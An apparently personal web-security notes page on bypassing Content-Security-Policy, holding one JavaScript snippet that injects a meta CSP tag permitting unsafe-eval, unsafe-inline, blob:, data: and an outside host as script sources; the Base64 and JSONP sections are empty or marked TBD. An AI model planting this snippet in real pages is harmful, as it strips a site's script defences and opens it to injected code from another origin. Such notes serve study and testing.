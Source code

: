 # CSP Bypass
## CSP Bypass by adding meta tag
Add a `meta` CSP response tag:
```js
var m = document.createElement("meta");m.content="script-src-elem unsafe-eval unsafe-inline https://akenofu.me/ blob: 'self' data: https://akenofu.me/;";m.httpEquiv = 'Content-Security-Policy';document.head.appendChild(m);
```

## CSP bypass by using Base64 tags

```html
- TBD By Javascript tag

- TBD By iframe tag
```


## CSP Bypass by JSONP
